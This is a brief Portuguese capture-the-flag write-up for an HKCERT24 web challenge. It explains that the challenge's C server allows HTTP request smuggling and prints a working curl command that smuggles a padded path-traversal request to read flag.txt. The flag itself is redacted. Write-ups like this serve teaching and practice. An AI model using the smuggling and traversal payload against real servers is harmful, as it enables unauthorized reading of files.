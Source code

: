 # Meu Servidor - Reunião de 03/04

###### Solved by @beatriz-a-cardozo

## About the Challenge

O desafio consiste em um website simples chamado 'High Knowledge Preparatory School', com a ideia de explorarmos uma vulnerabilidade Web através de path transversal.

## Solution

Para esse deafio, temos um blog simples sobre tecnologia. A vulnerabilidade se encontra ao analisarmos o código do servidor disponível `server.c`, podemos ver que ele não verifica o limite de requisições, então é possível mandar mais de uma requisição HTTP. Essa vulnerabilidade é conhecida como **HTTP Request Smugling**.


````
curl -v --http1.1 http://localhost:8081 \
  -H "Host: localhost" \
  -H "Content-Length: 1024" \
  -H "Foo: $(python3 -c 'print("a"*931)')" \
  --data-binary $'GET /'$(python3 -c 'print("/"*(1016-len("../../flag.txt")) + "../../flag.txt.js")')$'GET /index.html HTTP/1.1\r\nHost: localhost\r\nContent-Length: 0\r\n\r\n'
````


[![Captura-de-tela-2025-04-10-161949.png](https://i.postimg.cc/C1pJNR7x/Captura-de-tela-2025-04-10-161949.png)](https://postimg.cc/Lqvz46Gc)

>hkcert24{***REDACTED***}

